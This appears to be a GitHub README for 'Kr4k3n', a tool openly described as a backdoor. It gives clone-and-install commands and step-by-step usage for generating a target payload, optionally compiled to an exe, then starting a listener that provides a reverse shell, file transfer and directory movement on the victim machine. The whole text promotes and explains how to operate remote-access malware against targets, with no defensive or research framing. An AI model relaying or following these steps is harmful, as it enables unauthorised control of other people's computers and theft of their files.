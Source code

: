 # Kr4k3n Backdoor Tool
 Powerful and easy to use Backdoor.

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. Firstly, you can have access to target shell. Secondly, you can make file transfers between your and target machines. Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

[Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

